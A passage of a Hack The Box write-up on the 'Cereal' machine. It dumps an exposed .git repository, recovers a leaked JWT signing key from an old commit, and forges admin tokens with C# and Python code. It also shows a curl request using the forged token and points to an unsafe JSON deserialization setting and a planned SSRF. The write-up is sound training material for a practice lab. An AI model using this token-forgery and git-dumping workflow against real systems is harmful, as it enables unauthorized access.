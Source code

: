 # Source Code

## Git Dumper

We know from our [[Writeups/Hack the Box/Boxes/Cereal/5 - Enumeration#source cereal htb|gobuster scan]] that there is a `.git` folder on the `source.cereal.htb` domain. So we can try and download the source code for the site using the tool `gitdumper`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/cereal]
└─$ /opt/git-dumper/git-dumper.py http://source.cereal.htb/.git site/
```

This downloads all the code, and we can open it in VSCode.

Running `git log` shows us an interesting commit:

![[Pasted image 20210605185207.png]]

We can view the details with `git show`:

![[Pasted image 20210605185310.png]]

There are also some interesting files in the `.gitignore` - namely, `cereal.db`, which is likely the name of the database file being used. It's not in the downloaded repository.

## Controllers + Routes

I was unfamiliar with .NET going into this, but I'd done a little C# and a lot of Laravel - the first thing I went looking for to try and understand the application was Controllers & Routes.

`site/Controllers/RequestsController.cs` has what looks like controller methods - 

![[Pasted image 20210605191522.png]]

I couldn't find a corresponding 'route' pointing to these methods, like in Laravel, so I assumed this is the entire route definition. However, I did find the `site/ClientApp/src/_components/PrivateRoute.jsx` component, which seems to check for authentication:

![[Pasted image 20210605191834.png]]

I looked for instances of the private route component, and found a few more routes in the `site/ClientApp/src/App/App.jsx` file:

![[Pasted image 20210605191917.png]]

This shows us there is an authenticated `/admin` page. It is defined by `site/ClientApp/src/AdminPage/AdminPage.jsx` and seems to render Cereal Requests from the database:

![[Pasted image 20210605192048.png]]

`site/ClientApp/src/HomePage/HomePage.jsx` seems to be a submission form, and tells us which fields we need to submit a cereal:

![[Pasted image 20210605212024.png]]

The `site/ClientApp/src/_services/request.service.js` file tells us a bit about request methods, also:

![[Pasted image 20210605212547.png]]

## Authentication

Auth seems to be handled mostly by the `site/Services/UserService.cs` file, which generates JWT tokens:

![[Pasted image 20210605192151.png]]

Users seem to be saved locally using Javascript, as shown in the `site/ClientApp/src/_services/authentication.service.js` file:

![[Pasted image 20210605212657.png]]

We can use the token in the repository's old commits to craft a JWT token.

### Using .NET

I made an attempt to generate a JWT with C# code, looking at these links for reference:
- https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/main-and-command-args/
- https://stackoverflow.com/questions/20392243/run-c-sharp-code-on-linux-terminal
- https://stackoverflow.com/questions/18677837/decoding-and-verifying-jwt-token-using-system-identitymodel-tokens-jwt

This was the code I used, lifted from the main project and deleting the references to other unnecessary libraries:

```csharp
using System;
using System.Collections.Generic;
using System.IdentityModel.Tokens.Jwt;
using System.Security.Claims;

namespace TokenGeneration {
    class GenerateToken {
        static void Main(string[] args)
        {
            var tokenHandler = new JwtSecurityTokenHandler();
            var key = Encoding.ASCII.GetBytes("secretlhfIH&FY*#oysuflkhskjfhefesf");

            //create token descriptor for user id 1
            var tokenDescriptor = new SecurityTokenDescriptor
            {
                Subject = new ClaimsIdentity(new Claim[]
                {
                    new Claim(ClaimTypes.Name, "1")
                }),
                Expires = DateTime.UtcNow.AddDays(7),
                SigningCredentials = new SigningCredentials(new SymmetricSecurityKey(key), SecurityAlgorithms.HmacSha256Signature)
            };

            var token = tokenHandler.CreateToken(tokenDescriptor);
            Console.WriteLine(tokenHandler.WriteToken(token));
        }
    }
}
```

I tried `mcs` to compile it, but it was missing a dependency:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/cereal]
└─$ mcs -out:gentoken.exe gentoken.cs 
gentoken.cs(3,14): error CS0234: The type or namespace name `IdentityModel' does not exist in the namespace `System'. Are you missing an assembly reference?
Compilation failed: 1 error(s), 0 warnings
```

I knew I could resolve this on Windows pretty easily with Visual Studio, but didn't have it setup on Linux. I considered [installing .NET](https://docs.microsoft.com/en-us/dotnet/core/install/linux-ubuntu) but didn't think it was worth fiddling with if there was an easier way. I also didn't want to set up a Windows VM, so looked to see if I could use Python instead.

### Using Python

I used the `jwt` library for this: [https://pyjwt.readthedocs.io/en/latest/](https://pyjwt.readthedocs.io/en/latest/)

After a bit of experimenting with JWT tokens I came to the following code to spit a valid one out:

```python
import jwt
from datetime import datetime, timedelta

#take key from old git code - commit ID 8f2a1a88f15b9109e1f63e4e4551727bfb38eee5
key = "secretlhfIH&FY*#oysuflkhskjfhefesf"

#encode with HMAC-SHA-256
encoded = jwt.encode({"exp": datetime.utcnow() + timedelta(days=7), "name": 1}, key, algorithm="HS256")

print(encoded)
```

This can now be used when making requests, for example to `/requests`. This is what I used to build up a valid one - one of the key things that caused issues was not giving the JWT an expiry, which I thought was interesting - `WWW-Authenticate: Bearer error="invalid_token", error_description="The token has no expiration"`

## IP Whitelist

Several functions have the decorator:

```csharp
[Authorize(Policy = "RestrictIP")]
```

This means those functions are only accessible by localhost, i.e. the box itself. We can see this if we request a cereal:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/cereal/test-www]
└─$ curl -i -s -k -X $'GET' \
    -H $'Host: 10.10.10.217' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2MTgzMDA5ODMsIm5hbWUiOjF9.VgWvwKp0RMrr4NLnJxnIWoUJII3JQlUJecyFVpDlXvo' \
    $'https://10.10.10.217/requests?id=11'
HTTP/2 403 
server: Microsoft-IIS/10.0
strict-transport-security: max-age=2592000
x-rate-limit-limit: 5m
x-rate-limit-remaining: 148
x-rate-limit-reset: 2021-04-06T09:46:42.2058184Z
x-powered-by: Sugar
date: Tue, 06 Apr 2021 09:42:08 GMT
```

Even with a valid token, we receive a `403` status code.

This means that, to make requests to these controller methods, we must force the box to make a request on our behalf - this is known as a Server Side Request Forgery (SSRF).

There are several methods that we want to be able to access, such as viewing a cereal - reviewing the code in `Controllers/RequestsController.cs`, the following function immediately stands out as being potentially dangerous:

```csharp
var cereal = JsonConvert.DeserializeObject(json, new JsonSerializerSettings
{
	TypeNameHandling = TypeNameHandling.Auto
});
```

But this is one of the routes subject to the IP restriction, so we'll need a way to bypass this.